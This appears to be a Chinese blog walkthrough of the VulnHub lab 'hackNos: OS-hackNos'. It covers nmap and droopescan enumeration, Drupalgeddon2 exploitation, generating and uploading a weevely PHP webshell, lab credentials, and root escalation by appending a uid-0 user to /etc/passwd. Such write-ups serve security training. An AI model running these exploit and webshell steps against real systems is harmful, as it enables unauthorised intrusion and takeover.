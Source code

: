 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/varvz4O5pTaHl8qc6sOhAA)

大余安全  

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **52** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/RKmmCHT73fdQQ2nv9rDeddIlJk71QWHcslefZEPQxvuVzXNn9ZlY6dicKOiaJQBXNFYkbHtUsOw0duN5FIUuItSA/640?wx_fmt=png)

靶机地址：https://www.vulnhub.com/entry/hacknos-os-hacknos,401/

靶机难度：中级（CTF）-- 本人做完觉得是初级！！

靶机发布日期：2019 年 11 月 27 日

靶机描述：

Difficulty : Easy to Intermediate

Flag : 2 Flag first user And second root

Learning : exploit | Web Application | Enumeration | Privilege Escalation

Website : www.hackNos.com

mail : contact@hackNos.com

请注意：对于所有这些计算机，我已经使用 VMware 运行下载的计算机。我将使用 Kali Linux 作为解决该 CTF 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

![](https://mmbiz.qpic.cn/mmbiz_png/xVzbJNmGHSCH5d0fX1bHZYbyKoFLsiapvaq5K6Oo80wFkVAmt04DEn4DSiagPY4oL5QTcTlFhJZsA5mbTUZTJFYQ/640?wx_fmt=png)

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/C77dS0w9GZVLicWdZY3f1CoqQlg8THxKbvmQR0nmh21fJEJZa7vjXvjic0MOJjuiaNk89HqvfhGxBvLN0vp7bkLibw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaVibJHQPeE64DTIwyLwrG4bXljKDhAWicjW9In31opnlT4A26iaRAOUm2A/640?wx_fmt=png)

我们在 VM 中需要确定攻击目标的 IP 地址，需要使用 nmap 获取目标 IP 地址：

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiafUIWoCPu7pTk5Lhh48d4js4G5B99q7X9t7VjMFtiansOvodwBIloLzQ/640?wx_fmt=png)

我们已经找到了此次 CTF 目标计算机 IP 地址：192.168.56.143

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwia2rpYjCiag77BibHJAmbgM0sDaYibvvfRjqsCrEceDTV4WuPdQE0IT5qLA/640?wx_fmt=png)

nmap 发现开放了 22、80 端口...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiauEhTUyB8wT5JjbhMXsIR9CfPPmDO8atrDo9CeQ4B7jz4jTliczH9EVw/640?wx_fmt=png)

80 是个 apache2... 爆破看看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaaEicMA0zFHryZVicR5iaI2LbRLr9xSWJq0QAXr1cGpJGqmTObO9fI42Ww/640?wx_fmt=png)

发现 drupal...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaTZ209moFGSYaTMbKGa6uugqibE3EHicSdMeofq07OUxb5efFU4NYTXBA/640?wx_fmt=png)

这边利用 Droopescan 进行扫描（Droopescan 是一款基于插件的扫描器，可帮助安全研究人员发现 Drupal，SilverStripe，Wordpress，Joomla（枚举版本信息和可利用 URL 地址）和 Moodle 的问题）

这边当然也可以用 dirb，dirbuster 等等，Droopescan 比较好针对 drupal...[安装连接](https://github.com/droope/droopescan)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaCljuoc8TCCSIsmjz76RwXGHUW9PIatcciaKkfpNIwXTFZpKOXTibRCbw/640?wx_fmt=png)

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/C77dS0w9GZVLicWdZY3f1CoqQlg8THxKbvmQR0nmh21fJEJZa7vjXvjic0MOJjuiaNk89HqvfhGxBvLN0vp7bkLibw/640?wx_fmt=png)

  

  

方法 1：

  

  

drupal7.57 的版本...

两种方法：一种直接利用 MSF，一种利用 python 脚本...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaTYaSOZpjvVcicOeibicIVsPfjl2Y81bIzic1ZRqPoIo7NYvPajGFNAwh2Q/640?wx_fmt=png)

MSF 内核直接拿到 shell...

  

  

方法 2：

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaeNpOpjAWib9hO6gkjxtKhoFnySP8QU4MKiaj95utzOFFxHApp2DANTOg/640?wx_fmt=png)

```
git clone https://github.com/dreadlocked/Drupalgeddon2.git
```

先在 github 上下载该 exp... 如果执行和我一样报错，需要下载 `

gem  install highline` 因为在运行该 exp 前，需要预装依赖包 highline... 看下图

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaq5XWeKq0UdYbgScB5N97N4tJ6aqK40aj8SYekBP4CVSt7WRbssRqIg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaToz7nvwQDRwSUB4R1h1lOYxrGNrObGog0b7x1u41ERSrwticsE39iasA/640?wx_fmt=png)

成功获得 www-data 权限，但是这里想获得 TTY 必须利用木马工具...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaflwRLCWSVjbdDibBE2eqlhZ6V28kUp343FIWAKKfxFWgnBJ8LnDhZQw/640?wx_fmt=png)

```
weevely generate cmd ./xiaoma.php
```

生成木马... 然后上传上去即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiah4MIxJcKNicibalBv2Zf4WYO6FLB88TXuSrDkgEaTLdrZ6u4KjMb4drQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiavAVrQkAY2YwRp4p4qGmp3pIKuk9CmDFIuBcy39ySJZGh23eZG7ETSA/640?wx_fmt=png)

```
weevely http://192.168.56.143/drupal/xiaoma.php cmd
```

成功...

  

  

方法 3：

  

  

直接在链接下载 py，利用 python3 即可提权...

```
https://www.exploit-db.com/exploits/44448
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

获得 TTY... 不演示了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaMyANzeibNTz5JzibRiawFzib6GOaT0icrr7xfnric0dSX1IHxX1NLe7GY0Bw/640?wx_fmt=png)

成功获得 user...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaLSwxnO2GePf899B1Bkhk5LYKVbEicOwno30QzibcSO6icEdAfYEPBAP6Q/640?wx_fmt=png)

在 html 页面目录发现了 alexander.txt...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwia7JIiaZiaHticWNBjHowZZ4KYticRicojia9y3rKgsxUguBzTnVjGsRDiczU5A/640?wx_fmt=png)

一看就知道 base64 编码，解码...

这是 brainfuck 加密后的字符串... 解码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaA9kfiaXMmC3JatIUEDdCaZ7yUkUomlThga96Ajr9Vrz5vWQ1pD9O8Bg/640?wx_fmt=png)

```
[解码链接](https://www.splitbrain.org/services/ook)
james:Hacker@4514
```

我尝试在数据库看看能不能也找到密码... 试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaJh6m0V3ItUNth73icdhDCns4QDNxlhZKLAFvau4adJqApBwSr0RM4Zw/640?wx_fmt=png)

发现数据库用户密码：

```
cuppauser、Akrn@4514
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaCwXggFnWBQm3XpGV1g1oVkrdmLBpMFFRCOqd14ibicAqwerO4GLewDMQ/640?wx_fmt=png)

这儿也能看到，但是无法解析... 跳过

```
find / -perm -u=s -type f 2>/dev/null
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaRsjVhsuBST8Ag6lIBaF5Kmk9uDdDiccicVib7tsSEUdWUp4zFu6ibG9Pdw/640?wx_fmt=png)

这里可以 wget 和 sudo，但是 sudo -l 需要密码... 这里直接利用 wget 替换本地的 passwd 即可提权 root... 试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiakR6rleyBT8FMB6PS7pzicnjJk1ag4N4zjm4piaJIaiaGcQtHsCyE2JEXQ/640?wx_fmt=png)

```
openssl passwd -1 -salt dayu dayu
echo 'dayu:$1$dayu$/Cg/PH1Ew3w37.fLDfjX8/:0:0:root:/root:/bin/bash' >> /etc/passwd
```

在本地生成 root 权限用户 dayu... 开启本地服务

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaH2qcfeMJTNknmA2dvO7VODgNich82WQruw4kyuKfP8buBg7okic8tiaQw/640?wx_fmt=png)提权即可..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPWxDwUL9fsC1gZyF6uoRwiaOC8KiaSeiae4hOLrBfYQK9q0NPp2QicOrfBPtUxAEoaFvK47dMsga3lFQ/640?wx_fmt=png)

成功获得 root 权限并查看两个 flag...

![](https://mmbiz.qpic.cn/mmbiz_png/RKmmCHT73fdQQ2nv9rDeddIlJk71QWHcslefZEPQxvuVzXNn9ZlY6dicKOiaJQBXNFYkbHtUsOw0duN5FIUuItSA/640?wx_fmt=png)

当然方法很多种，千变万化，理解原理即可！！！加油！！！

由于我们已经成功得到 root 权限查看 flag，因此完成了简单靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/xVzbJNmGHSCH5d0fX1bHZYbyKoFLsiapvaq5K6Oo80wFkVAmt04DEn4DSiagPY4oL5QTcTlFhJZsA5mbTUZTJFYQ/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)